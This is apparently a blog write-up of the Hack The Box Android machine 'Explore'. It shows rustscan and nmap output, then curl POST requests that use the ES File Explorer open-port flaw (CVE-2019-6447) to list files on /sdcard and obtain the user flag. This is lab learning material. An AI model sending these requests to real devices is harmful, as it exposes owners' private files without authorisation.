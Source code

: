 [**slyone999’s Security Blog**] (https://slyone999.github.io)

[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)

* TOC
{:toc}

# Info#

| Machine Name | explore |
| IP Address | 10.10.10.247 |
| OS | Android |

# Recon

## NMap
'''
rustscan -b 240 -a 10.10.10.247
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/user/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 924'.
Open 10.10.10.247:2222
Open 10.10.10.247:35317
Open 10.10.10.247:42135
Open 10.10.10.247:59777
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 12:20 BST
Initiating Ping Scan at 12:20
Scanning 10.10.10.247 [2 ports]
Completed Ping Scan at 12:20, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:20
Completed Parallel DNS resolution of 1 host. at 12:20, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 12:20
Scanning 10.10.10.247 [4 ports]
Discovered open port 35317/tcp on 10.10.10.247
Discovered open port 2222/tcp on 10.10.10.247
Discovered open port 59777/tcp on 10.10.10.247
Discovered open port 42135/tcp on 10.10.10.247
Completed Connect Scan at 12:20, 0.05s elapsed (4 total ports)
Nmap scan report for 10.10.10.247
Host is up, received conn-refused (0.059s latency).
Scanned at 2021-10-10 12:20:52 BST for 0s

PORT      STATE SERVICE      REASON
2222/tcp  open  EtherNetIP-1 syn-ack
35317/tcp open  unknown      syn-ack
42135/tcp open  unknown      syn-ack
59777/tcp open  unknown      syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
'''

Results and problems with using rustscan and nmap

'''
nmap -sV -p 2222 10.10.10.247 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 20:27 BST
Nmap scan report for 10.10.10.247
Host is up (0.046s latency).

PORT     STATE SERVICE VERSION
2222/tcp open  ssh     (protocol 2.0)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2222-TCP:V=7.92%I=7%D=10/10%Time=61633EC2%P=x86_64-pc-linux-gnu%r(N
SF:ULL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.10 seconds
┌─[user@parrot-virtual]─[~/Documents/HTB/explore]
└──╼ $nmap -sV -p 35317 10.10.10.247 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 20:28 BST
Nmap scan report for 10.10.10.247
Host is up (0.025s latency).

PORT      STATE SERVICE VERSION
35317/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port35317-TCP:V=7.92%I=7%D=10/10%Time=61633EDA%P=x86_64-pc-linux-gnu%r(
SF:GenericLines,AA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sun,\x2
SF:010\x20Oct\x202021\x2019:28:27\x20GMT\r\nContent-Length:\x2022\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n
SF:\r\nInvalid\x20request\x20line:\x20")%r(GetRequest,5C,"HTTP/1\.1\x20412
SF:\x20Precondition\x20Failed\r\nDate:\x20Sun,\x2010\x20Oct\x202021\x2019:
SF:28:27\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,B5,"HTTP/1
SF:\.0\x20501\x20Not\x20Implemented\r\nDate:\x20Sun,\x2010\x20Oct\x202021\
SF:x2019:28:33\x20GMT\r\nContent-Length:\x2029\r\nContent-Type:\x20text/pl
SF:ain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20not\x
SF:20supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad\x20
SF:Request\r\nDate:\x20Sun,\x2010\x20Oct\x202021\x2019:28:33\x20GMT\r\nCon
SF:tent-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\
SF:r\nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20version
SF::\x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nD
SF:ate:\x20Sun,\x2010\x20Oct\x202021\x2019:28:48\x20GMT\r\nContent-Length:
SF:\x2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnectio
SF:n:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessionRe
SF:q,DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sun,\x2010\x20Oct\
SF:x202021\x2019:28:48\x20GMT\r\nContent-Length:\x2073\r\nContent-Type:\x2
SF:0text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInvalid
SF:\x20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\?`~\
SF:?\0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(TerminalS
SF:erverCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Sun,\x20
SF:10\x20Oct\x202021\x2019:28:48\x20GMT\r\nContent-Length:\x2054\r\nConten
SF:t-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\
SF:r\nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x20mst
SF:shash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Date:\x20Sun,\x2010\x20Oct\x202021\x2019:28:48\x20GMT\r\nContent-Length
SF::\x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnecti
SF:on:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01\0\
SF:0e\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.32 seconds
┌─[user@parrot-virtual]─[~/Documents/HTB/explore]
└──╼ $nmap -sV -p 42135 10.10.10.247 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 20:30 BST
Nmap scan report for 10.10.10.247
Host is up (0.028s latency).

PORT      STATE SERVICE VERSION
42135/tcp open  http    ES File Explorer Name Response httpd
Service Info: Device: phone

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.74 seconds
┌─[user@parrot-virtual]─[~/Documents/HTB/explore]
└──╼ $nmap -sV -p 59777 10.10.10.247 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 20:31 BST
Nmap scan report for 10.10.10.247
Host is up (0.038s latency).

PORT      STATE SERVICE VERSION
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.53 seconds
'''

| Port | Service |
| 2222 | Banana Studio SSH |
| 35317 | Unknown web response |
| 42135 | ES File Explorer Name Response httpd |
| 59777| Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older |

The Banana Studio port could be vulnerable to a CVE but needs payload sent, need to find a way to inject payload.

Is this relevant - https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566

'''
curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"listFiles\"}" http://10.10.10.247:59777

'''
This works so nneed to work out how to get the user.txt file

The following looks like a POC for this https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
Fuzz the curl request and the following appears to work 
'''
curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"listFiles\"}" http://10.10.10.247:59777/sdcard
'''

Access this url from a browser and the user.txt is returned f32017174c7c7e8f50c6da52891ae250
